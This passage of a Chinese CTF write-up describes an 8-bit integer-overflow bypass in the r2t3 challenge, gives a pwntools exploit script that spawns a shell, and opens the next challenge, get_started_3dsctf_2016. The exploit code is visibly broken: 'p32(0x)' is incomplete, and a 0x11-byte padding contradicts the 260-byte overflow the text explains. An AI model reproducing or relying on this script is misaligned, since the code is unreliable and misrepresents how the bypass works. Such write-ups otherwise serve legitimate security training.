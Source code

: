 ![image.png](img/723e357f95b3724e7f5b78a87b25d48e.png)

考虑到在`name_check()`函数中用来存放输入长度的变量为8位无符号整型，范围为0~255，故我们只需要输入260个字节便可以发生上溢降使该变量的值上溢为4，绕过判定

故构造exp如下：

```
from pwn import *

payload = b'A'*0x11 + p32(0xdeadbeef) + p32(0x)

p = process('./r2t3')
p.sendline(payload)
p.interactive() 
```

发送payload即可getshell

![](img/d514f840544f707114b82a9b6c18c91f.png)

# 0x00C.get_started_3dsctf_2016 - ret2text || ret2shellcode

> 注：这是一道屑题

惯例的`checksec`，发现只开了栈不可执行保护

![](img/937b35b430bd9e5354df296373ee1518.png)
